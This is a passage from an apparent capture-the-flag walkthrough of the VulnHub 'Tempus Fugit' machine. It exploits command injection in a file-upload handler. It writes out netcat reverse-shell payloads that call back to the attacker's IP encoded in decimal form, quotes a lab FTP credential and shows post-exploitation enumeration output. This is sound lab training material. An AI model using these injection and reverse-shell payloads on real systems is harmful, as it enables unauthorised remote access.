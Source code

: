  `check = filename.rsplit('.', 1)[1].lower()`
3. There's cred for ftp server `'someuser', 'b232a4da4c104798be4613ab76d26efda1a04606')`
4. payloads with slashes(/) too are problematic. Tried using wget to upload but we’re restricted from executing things in `/upload` directory … i think
5. the vulnerability of this code lies in
```
	cmd="cat "+UPLOAD_FOLDER+"/"+filename
	result = subprocess.check_output(cmd, shell=True)
```

After checking the system, the only option for a payload is `/bin/nc`. Also the IP has to be in decimal format so as not to fail the `allowed_file` check. Using `nc <<ip decimal format>> <<port number>>  -e sh` works.
Our IP 192.168.109.148 in decimal format is 3232263572 (using any online converter):

We initially tried these.
```
nc -e /bin/sh 3232263572 4242
nc -e /bin/bash 3232263572 4242
nc 3232263572 4242 sh
```
None of them payloads worked;

However, this gives a reverse shell.

```
nc 3232263572 4242 -e sh
```

Once we're inside we realise why the first three options didn't work. The `-e option` must be last;

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-6.png)

When we run LinEnum, it tells us we're in a docker environment,
```
[+] Looks like we're in a Docker container:
...
-rwxr-xr-x    1 root     root             0 Aug 16  2019 /.dockerenv
```

The machine IP is different from what we have externally as well
```
### NETWORKING  ##########################################
[-] Network and IP info:
eth0      Link encap:Ethernet  HWaddr 02:42:AC:13:00:0A
          inet addr:172.19.0.10  Bcast:172.19.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:139629 errors:0 dropped:0 overruns:0 frame:0
          TX packets:135825 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:7799491 (7.4 MiB)  TX bytes:10351266 (9.8 MiB)
...
```


[1]: https://www.vulnhub.com/entry/tempus-fugit-1,346/
[2]: https://twitter.com/@DCAU7
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
[5]: https://twitter.com/@4nqr34z
[6]: https://swaudo.github.io/articles/2019-01/wintermute-walkthrough